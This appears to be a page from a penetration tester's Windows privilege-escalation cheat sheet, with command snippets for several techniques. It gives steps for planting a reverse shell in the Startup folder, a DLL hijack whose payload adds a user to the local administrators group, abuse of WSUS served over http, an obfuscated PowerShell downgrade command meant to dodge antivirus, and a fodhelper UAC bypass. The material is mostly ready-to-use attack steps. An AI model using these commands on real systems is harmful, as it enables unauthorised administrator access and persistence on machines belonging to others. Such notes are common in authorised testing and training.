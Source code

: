 ## Startup Applications 
```powershell
# BEWARE YOU NEED TO RESTART/LOGOFF! Requires trigger!
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" # sysinternals
# Create a shortcut to your reverse shell in StartUp directory.
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# place reverse shell in C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

## DLL hijacking!
```powershell
# Find a dll to exploit
# Get the windows_dll.c
# Edit, replacing the system() call to:
cmd.exe /k net localgroup administrators user /add
#compile
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
# place the dll
sc stop dllsvc 
sc start dllsvc # Or start a service that use it.
```

## WSUS
If updates are run via http, not https:
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
# If you get:
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
	WUServer REG_SZ http:// # Some http server! 
# AND
HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer # == 1 
```
Use: [wsuxploit](https://github.com/pimps/wsuxploit) or [pywsus](https://github.com/GoSecure/pywsus)


## Powershell downgrade
```powershell
powershell -version 2
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```


## UAC bypass
Check out [[Bypassing-Windows-User-Account-Control]] for more!
```powershell
# If Windows 10 build 1709, Microsoft's fodhelper.exe
# Admin user can silently bypass
# Settings -> Apps & features ->  Manage optional features
fodhelper.exe # by default runs on High Integrity 
# Sysinternals sigcheck to inspec manifest
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
```
